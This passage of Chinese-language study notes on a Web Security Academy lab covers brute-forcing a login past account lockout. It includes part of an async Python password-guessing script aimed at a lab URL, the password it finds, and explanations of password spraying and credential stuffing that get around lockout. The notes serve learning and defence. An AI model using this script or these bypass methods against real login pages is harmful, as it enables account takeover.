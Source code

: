                 async def limited_task(task):
                    async with semaphore:
                        await task
                        # 小延遲避免過快請求
                        await asyncio.sleep(0.1)
                
                # 執行該輪所有任務
                await asyncio.gather(*[limited_task(task) for task in tasks])
                
                print(f"Round {round_num + 1} completed")


    async def main():
        """主函數"""
        url = 'https://0a45005d0321c863814516e700cb0001.web-security-academy.net/login'
        username = 'agenda'
        
        print(f"開始測試用戶 '{username}' 的密碼...")
        print(f"總共將測試 {len(wordlist)} 個密碼，執行 5 輪")
        
        await run_password_tests(wordlist, url, rounds=5, username=username)


    if __name__ == "__main__":
        # 執行非同步程式
        asyncio.run(main())
4. 找到密碼 `summer` 的回應長度和其他回應長度不同。
5. 等待一分鐘解除鎖定後，登入取得的帳號密碼完成此 Lab。
:::

鎖定帳戶對於針對特定帳戶的目標式暴力破解攻擊提供了一定程度的保護。然而，這種方法無法充分防止攻擊者只是試圖取得任何隨機帳戶存取權限的暴力破解攻擊。

例如，可以使用以下方法來繞過這種防護：

1. 建立一份可能有效的候選使用者名稱清單。這可以透過使用者名稱列舉，或者簡單地基於常見使用者名稱清單來達成。
2. 決定一個非常少量的密碼候選清單，您認為至少有一個使用者可能會使用。關鍵在於，您選擇的密碼數量不得超過允許的登入嘗試次數。例如，如果您已經確定限制為 3 次嘗試，您最多只能選擇 3 個密碼猜測。
3. 使用諸如 Burp Intruder 之類的工具，對每個候選使用者名稱嘗試每個選定的密碼。透過這種方式，您可以嘗試對每個帳戶進行暴力破解而不會觸發帳戶鎖定。您只需要一個使用者使用這三個密碼中的其中一個，就能成功入侵帳戶。

帳戶鎖定也無法防護憑證填充攻擊。這種攻擊涉及使用大量的「使用者名稱：密碼」配對字典，由在資料外洩事件中竊取的真實登入憑證組成。憑證填充攻擊利用了許多人在多個網站上重複使用相同使用者名稱和密碼的事實，因此字典中的某些被入侵憑證也有可能在目標網站上有效。帳戶鎖定無法防護憑證填充攻擊，因為每個使用者名稱只會被嘗試一次。憑證填充攻擊特別危險，因為它有時可以讓攻擊者僅透過一次自動化攻擊就入侵許多不同的帳戶。

#### 使用者速率限制

網站嘗試防止暴力破解攻擊的另一種方式是透過使用者速率限制。在這種情況下，在短時間內進行過多的登入請求會導致您的 IP 位址被封鎖。通常，IP 位址只能透過以下其中一種方式解除封鎖：

* 在經過一定時間後自動解除
* 由管理員手動解除
* 由使用者在成功完成驗證碼（CAPTCHA）後手動解除

由於使用者速率限制較不容易出現使用者名稱列舉和拒絕服務攻擊，因此有時會優於帳戶鎖定。然而，它仍然不是完全安全的。正如我們在之前的實驗中看到的例子，攻擊者有幾種方法可以操縱其表面 IP 位址來繞過封鎖。
